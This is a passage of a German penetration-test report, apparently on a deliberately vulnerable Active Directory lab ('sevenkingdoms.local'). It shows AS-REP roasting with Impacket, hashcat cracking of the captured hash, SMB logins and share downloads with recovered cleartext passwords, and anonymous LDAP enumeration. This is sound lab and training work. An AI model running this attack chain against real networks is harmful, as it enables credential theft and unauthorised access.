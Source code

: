 **Tool:** `GetNPUsers.py` (Impacket)

**Erfolgreicher Crack:**

```bash
$ hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt
# Ergebnis: brandon.stark:iseedeadpeople
```

### 4.2 SMB-Exploitation

### Erfolgreiche SMB-Logins

**Mit jon.snow:iknownothing:**

```bash
$ crackmapexec smb 192.168.20.11 -u jon.snow -p iknownothing
SMB    192.168.20.11   445    WINTERFELL       [+] north.sevenkingdoms.local\jon.snow:iknownothing
```

**NETLOGON/SYSVOL-Zugriff:**

```bash
$ smbclient //192.168.20.11/NETLOGON -U jon.snow
Password: iknownothing
# Downloads: script.ps1 (165 Bytes), secret.ps1 (869 Bytes)
```

**Mit samwell.tarly:Heartsbane:**

```bash
$ smbclient //192.168.20.22/all -U samwell.tarly
Password: Heartsbane
# Downloads: arya.txt (413 Bytes), connys_textdatei.txt, Test.txt
```

---

## 5. Post-Exploitation & Lateral Movement

### 5.1 Dateien-Analyse

**Heruntergeladene Dateien:**
- `script.ps1` (165 Bytes) - PowerShell-Skript aus NETLOGON
- `secret.ps1` (869 Bytes) - Potentiell sensitive Credentials
- `arya.txt` (413 Bytes) - “Subject: Quick Departure”
- `connys_textdatei.txt` - Benutzerdaten
- `Test.txt` - “Hallo das ist nur ein Testtxt / wir sind bei Hauptwindos”

### 5.2 LDAP-Enumeration

**Erfolgreiche anonyme LDAP-Abfragen:**

**Naming Contexts identifiziert:**

```
KINGSLANDING: DC=sevenkingdoms,DC=local
WINTERFELL: DC=north,DC=sevenkingdoms,DC=local
MEEREEN: DC=essos,DC=local
```
